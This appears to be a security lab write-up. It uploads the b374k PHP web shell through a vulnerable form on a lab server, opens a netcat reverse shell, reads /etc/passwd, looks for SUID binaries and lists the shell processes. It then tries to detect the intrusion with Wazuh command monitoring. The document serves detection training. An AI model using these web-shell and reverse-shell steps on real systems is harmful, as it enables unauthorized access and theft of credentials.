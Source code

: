 In this exercise we will try to execute a reverse shell in a server, in order to detect it with a Wazuh manager installed in another server.


```
Wazuh agent to attack
IP: 192.168.128.49
```

```
Wazuh Manager
IP: 192.168.128.80
```

On the victim machine there is a website with a form that we can exploit.

http://192.168.128.49/workshop1/

We know that the server uses PHP, so we will use a PHP exploit called B374K, a web shell download it from 
[https://github.com/backdoorhub/shell-backdoor-list](https://github.com/backdoorhub/shell-backdoor-list).

We have renamed the exploit to tonipm.php.

!["Uploading exploit"](images/image01.png "Uploading exploit")

All uploaded files can be listed in
[http://192.168.128.49/workshop1/images/](http://192.168.128.49/workshop1/images/)

!["List of public files"](images/image01b.png "List of public files")

Using our exploit [http://192.168.128.49/workshop1/images/tonipm.php](http://192.168.128.49/workshop1/images/tonipm.php).

!["Accessing to b374k webshell"](images/image02.png "Accessing to exploit")

!["Inside b374k"](images/image03.png "Inside b374k")

The first thing we will do is change our shell password.

!["Change shell password"](images/image04.png "Change shell password")

!["Reading /etc/passwd"](images/image05.png "Reading /etc/passwd")

In the exploit there is a screen called *rs* (Reverse Shell) with a list of shells to execute. We will use a PHP.

Press 'Go'.

!["Bind shell"](images/image06.png "Bind shell")

Reverse shell

!["Reverse shell with Netcat"](images/image07.png "Reverse shell with Netcat")

```
$ nc 192.168.128.49 13123
b374k shell : connected
/bin/sh: 0: can't access tty; job control turned off
/etc>pwd
/etc
/etc>cat passwd		
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
systemd-timesync:x:102:104:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:106::/nonexistent:/usr/sbin/nologin
syslog:x:104:110::/home/syslog:/usr/sbin/nologin
_apt:x:105:65534::/nonexistent:/usr/sbin/nologin
tss:x:106:111:TPM software stack,,,:/var/lib/tpm:/bin/false
uuidd:x:107:112::/run/uuidd:/usr/sbin/nologin
tcpdump:x:108:113::/nonexistent:/usr/sbin/nologin
landscape:x:109:115::/var/lib/landscape:/usr/sbin/nologin
pollinate:x:110:1::/var/cache/pollinate:/bin/false
usbmux:x:111:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
sshd:x:112:65534::/run/sshd:/usr/sbin/nologin
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
montilivi:x:1000:1000:montilivi:/home/montilivi:/bin/bash
lxd:x:998:100::/var/snap/lxd/common/lxd:/bin/false
mysql:x:113:118:MySQL Server,,,:/nonexistent:/bin/false
bind:x:114:119::/var/cache/bind:/usr/sbin/nologin
ossec:x:115:120::/var/ossec:/sbin/nologin
```

```
/etc>cat /var/www/html/workshop1/images/tonipm.php
<?php

$s_pass = "77a05418992b13fef4ca7b433cb7e33d084476af"; // default password : b374k (login and change to new password)

$s_ver = "2.8"; // shell ver
....
```

```
$ nc 192.168.128.49 13123
b374k shell : connected
/bin/sh: 0: can't access tty; job control turned off
/etc>whoami
www-data
/etc>
```

Find files with SUID (Set owner User ID) permission. This  is a special permission that applies to scripts or applications. If the SUID bit is set, when the command is run, it’s effective UID becomes that of the owner of the file, instead of the user running it.  

```
/etc>find /usr/bin -perm -u=s -type f
/usr/bin/chfn
/usr/bin/chsh
/usr/bin/fusermount
/usr/bin/umount
/usr/bin/su
/usr/bin/pkexec
/usr/bin/gpasswd
/usr/bin/passwd
/usr/bin/newgrp
/usr/bin/mount
/usr/bin/at
/usr/bin/sudo
```

!["Files with SUID permission"](images/image10.png "Files with SUID permission")

If we check the list of process running in the vulnerable machine during the metasploit attack, we will see some suspicious processes:

```
/etc>ps -eo user,pid,cmd | grep www-data
www-data     864 /usr/sbin/apache2 -k start
www-data     865 /usr/sbin/apache2 -k start
www-data     866 /usr/sbin/apache2 -k start
www-data     867 /usr/sbin/apache2 -k start
www-data     868 /usr/sbin/apache2 -k start
www-data    2582 /usr/sbin/apache2 -k start
www-data    2583 /usr/sbin/apache2 -k start
www-data    3431 /usr/sbin/apache2 -k start
www-data    3432 /usr/sbin/apache2 -k start
www-data    3433 /usr/sbin/apache2 -k start
www-data    4521 sh -c export TERM=xterm;PS1='$PWD>';export PS1;/bin/sh -i
www-data    4522 /bin/sh -i
www-data    4523 sh -c export TERM=xterm;PS1='$PWD>';export PS1;/bin/sh -i
www-data    4524 /bin/sh -i
www-data    4563 sh -c export TERM=xterm;PS1='$PWD>';export PS1;/bin/sh -i
www-data    4564 /bin/sh -i
www-data    4565 sh -c export TERM=xterm;PS1='$PWD>';export PS1;/bin/sh -i
www-data    4566 /bin/sh -i
www-data    4954 ps -eo user,pid,cmd
www-data    4955 grep www-data
```

We can use netstat to get opened TCP connections, but there is no netstat installed in the server.

```
netstat -tnp
```

It can also be done with the command shown below.

```
/etc>grep -v "rem_address" /proc/net/tcp  | awk  '{x=strtonum("0x"substr($3,index($3,":")-2,2)); for (i=5; i>0; i-=2) x = x"."strtonum("0x"substr($3,i,2))}{print x":"strtonum("0x"substr($3,index($3,":")+1,4))}'
0.0.0.0:0
0.0.0.0:0
0.0.0.0:0
0.0.0.0:0
0.0.0.0:0
0.0.0.0:0
0.0.0.0:0
0.0.0.0:0
192.168.128.197:13123
192.168.128.90:60666
192.168.128.80:1514
```

!["Opened TCP connections"](images/image11.png "Opened TCP connections")

Trying to detect reverse shell in Wazuh manager.

https://192.168.128.80

```
<wodle name="command">
    <disabled>no</disabled>
    <tag>ps-list</tag>
    <command>ps -eo user,pid,cmd</command>
    <interval>10s</interval>
    <ignore_output>no</ignore_output>
    <run_on_start>yes</run_on_start>
    <timeout>5</timeout>
</wodle>
```

A priori the Wazuh manager does not detect the reverse shell 

https://documentation.wazuh.com/current/proof-of-concept-guide/detect-unauthorized-processes-netcat.html

```
<ossec_config>
    <localfile>
        <log_format>full_command</log_format>
        <alias>process list</alias>
        <command>ps -e -o pid,uname,command</command>
        <frequency>30</frequency>
    </localfile>
</ossec_config>
```